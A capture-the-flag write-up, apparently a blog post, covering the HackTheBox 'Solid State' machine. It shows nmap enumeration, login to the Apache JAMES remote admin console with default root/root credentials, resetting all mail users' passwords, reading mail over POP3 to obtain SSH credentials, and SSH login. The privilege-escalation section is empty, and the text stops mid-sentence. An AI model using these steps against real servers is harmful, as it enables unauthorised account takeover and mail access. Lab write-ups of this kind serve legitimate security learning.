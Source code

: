 ```yaml
---
layout: post
title: "HackTheBox: Solid State"
description: "Solid State is an easy hackthebox box lol"
thumb_image: "TODO"
tags: [web, ctf, overthewire]
permalink: /posts/SolidState
---
```


## Enumeration
We'll start off with nmap scans.

My methodology on networks that we have good access to is to initially do a SYN scan of all ports and then do more thorough scanning of those we find to be open. It's good practice to keep an eye on this initial scanning, if we see it's running slowly it may be that we're tripping a firewall.

So we start off with a SYN scan (-sS), of all ports (-p-), there's no DNS in this environment so let's turn off name resolution (-n), and save output in all formats with the filename "allports" (-oA allports).

nmap -n -p- -sS -oA allports 10.10.10.51:

```
# Nmap 7.60 scan initiated Mon May 28 02:40:13 2018 as: nmap -n -p- -sS -oA allports 10.10.10.51
Nmap scan report for 10.10.10.51
Host is up (0.066s latency).
Not shown: 65529 closed ports
PORT     STATE SERVICE
22/tcp   open  ssh
25/tcp   open  smtp
80/tcp   open  http
110/tcp  open  pop3
119/tcp  open  nntp
4555/tcp open  rsip

# Nmap done at Mon May 28 02:40:55 2018 -- 1 IP address (1 host up) scanned in 41.72 seconds
```

Now let's enumerate these open ports (-p 22, 25, 80, 110, 119, 455) using service detection (-sV) and default scripts (-sC), saving all outputs with the filename "thorough" (-oA thorough) and with name resolution still off (-n):

```
# Nmap 7.60 scan initiated Mon May 28 02:42:30 2018 as: nmap -p 22,25,80,110,119,4555 -sC -sV -oA thorough -n 10.10.10.51
Nmap scan report for 10.10.10.51
Host is up (0.065s latency).

PORT     STATE SERVICE     VERSION
22/tcp   open  ssh         OpenSSH 7.4p1 Debian 10+deb9u1 (protocol 2.0)
| ssh-hostkey:
|   2048 77:00:84:f5:78:b9:c7:d3:54:cf:71:2e:0d:52:6d:8b (RSA)
|   256 78:b8:3a:f6:60:19:06:91:f5:53:92:1d:3f:48:ed:53 (ECDSA)
|_  256 e4:45:e9:ed:07:4d:73:69:43:5a:12:70:9d:c4:af:76 (EdDSA)
25/tcp   open  smtp        JAMES smtpd 2.3.2
|_smtp-commands: solidstate Hello nmap.scanme.org (10.10.14.11 [10.10.14.11]),
80/tcp   open  http        Apache httpd 2.4.25 ((Debian))
|_http-server-header: Apache/2.4.25 (Debian)
|_http-title: Home - Solid State Security
110/tcp  open  pop3        JAMES pop3d 2.3.2
119/tcp  open  nntp        JAMES nntpd (posting ok)
4555/tcp open  james-admin JAMES Remote Admin 2.3.2

# Nmap done at Mon May 28 02:42:57 2018 -- 1 IP address (1 host up) scanned in 26.92 seconds
```

So we have 6 ports open. From the service detection results it appears we have a mail server, running apache JAMES. Time to work out a plan of attack.

**Port 22** is showing a reasonably modern SSH service, this will be our lowest priority to look at.

**Port 25** is SMTP, we could see if [SMTP enumeration](https://pentestlab.blog/2012/11/20/smtp-user-enumeration/) is a possibility, this is a medium priority.

**Port 80** is HTTP, having a quick look in a browser it looks like a basic web app, definitely something we'll want to check out, we'll note this down as a high priority and start nikto scanning in the background.

**Port 110** is POP3, but we don't have any credentials, once again a low priority at the moment.

**Port 119** is NNTP, quick google indicates it's something to do with usenet, we'll say it's a low priority for now.

**Port 4555** is remote admin for JAMES. Sirens should be going off when see the words remote and admin. Let's make this our top priority.

## Poking at Remote Admin
Connecting to the port with netcat ```nc -nv 10.10.10.51 4555``` we're prompted for a username and password.

Trying admin/admin kicks us back to the start of the prompt where we can immediately try again. It doesn't appear that there are cooldowns on repeated attempts so we can probably script a bruteforcer if we get stuck.

Let's quickly try the obvious candidates first, root/password, admin/password etc. We don't have to try for long as root/root grants us access!

```
JAMES Remote Administration Tool 2.3.2
Please enter your login and password
Login id:
root
Password:
root
Welcome root. HELP for a list of commands
```

Help gives us a list of commands:

```
help
Currently implemented commands:
help                                    display this help
listusers                               display existing accounts
countusers                              display the number of existing accounts
adduser [username] [password]           add a new user
verify [username]                       verify if specified user exist
deluser [username]                      delete existing user
setpassword [username] [password]       sets a user's password
setalias [user] [alias]                 locally forwards all email for 'user' to 'alias'
showalias [username]                    shows a user's current email alias
unsetalias [user]                       unsets an alias for 'user'
setforwarding [username] [emailaddress] forwards a user's email to another email address
showforwarding [username]               shows a user's current email forwarding
unsetforwarding [username]              removes a forward
user [repositoryname]                   change to another user repository
shutdown                                kills the current JVM (convenient when James is run as a daemon)
quit                                    close connection
```

"Display existing accounts" sounds like the sort of thing we'd be interested in, and while we're at it let's change the password for each user to be their username:

```
countusers
Existing accounts 5

listusers
user: james
user: thomas
user: john
user: mindy
user: mailadmin

setpassword james james
Password for james reset

setpassword thomas thomas
Password for thomas reset

setpassword john john
Password for john reset

setpassword mindy mindy
Password for mindy reset

setpassword mailadmin
Password for mailadmin reset
```

So we now have username and passwords for a bunch of users. That POP3 port that we didn't have credentials for might make itself useful after all!

We can telnet to port 110 ```telnet 10.10.10.51 110```. POP3 is an extremely simple protocol to interact with. From the [RFC](https://www.ietf.org/rfc/rfc1939.txt) our commands are:


      Minimal POP3 Commands:

         USER name               valid in the AUTHORIZATION state
         PASS string
         QUIT
         STAT                    valid in the TRANSACTION state
         LIST [msg]
         RETR msg
         DELE msg
         NOOP
         RSET
         QUIT

Logging in with each user and checking for email, we find for Mindy:

```
Return-Path: <mailadmin@localhost>
Message-ID: <16744123.2.1503422270399.JavaMail.root@solidstate>
MIME-Version: 1.0
Content-Type: text/plain; charset=us-ascii
Content-Transfer-Encoding: 7bit
Delivered-To: mindy@localhost
Received: from 192.168.11.142 ([192.168.11.142])
          by solidstate (JAMES SMTP Server 2.3.2) with SMTP ID 581
          for <mindy@localhost>;
          Tue, 22 Aug 2017 13:17:28 -0400 (EDT)
Date: Tue, 22 Aug 2017 13:17:28 -0400 (EDT)
From: mailadmin@localhost
Subject: Your Access

Dear Mindy,


Here are your ssh credentials to access the system. Remember to reset your password after your first login.
Your access is restricted at the moment, feel free to ask your supervisor to add any commands you need to your path.

username: mindy
pass: P@55W0rd1!2@

Respectfully,
James
```

## Shell

To get a user shell we can simply log in via SSH using the credentials given in the email. From here we can cat the user flag.

Halfway there!!



https://speakerdeck.com/knaps/escape-from-shellcatraz-breaking-out-of-restricted-unix-shells

## Privelege Escalation




## Notes

Guessing the default creds for the remote admin tool was pure luck, a sensible next step would have been searching for JAMES exploits. ```searchsploit apache james``` shows us a python exploit https://www.exploit-db.com/exploits/35513/ We did't have the requisite authenticated user at that moment, but reading through the exploit would have also given us the default creds "root" "root".

That exploit is also worth a
